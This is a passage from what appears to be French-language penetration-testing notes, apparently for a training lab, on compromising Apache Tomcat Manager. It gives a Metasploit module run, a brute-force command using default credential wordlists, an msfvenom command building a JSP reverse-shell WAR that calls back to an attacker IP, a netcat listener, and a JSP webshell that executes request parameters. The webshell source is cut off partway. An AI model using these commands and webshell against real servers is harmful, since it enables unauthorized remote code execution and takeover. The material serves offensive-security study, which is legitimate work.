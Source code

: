 ```shell-session
set rhosts 10.129.201.58
```

```
run
```

### Script Python

https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce.git

```shell
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```



## WAR File Upload


#### ReverseShell

1. Créer charge avec msfvenom

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```

2. lancer listener

```shell
nc -lnvp 4443
```

3. Cliquer sur Browse -> Séléctionner war file
4. Deploy
5. RCE 

```shell
curl http://web01.inlanefreight.local:8180/backup/
```

6. Supprimer l'archive avec Undeploy pour nettoyer

#### Webshell

1. Créer bb58021f870b5f85c6c24120540de43f.jsp

```java
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("bb58021f870b5f85c6c24120540de43f") != null) {
        out.println("Command: " + request.getParameter("bb58021f870b5f85c6c24120540de43f") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("bb58021f870b5f85c6c24120540de43f"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
```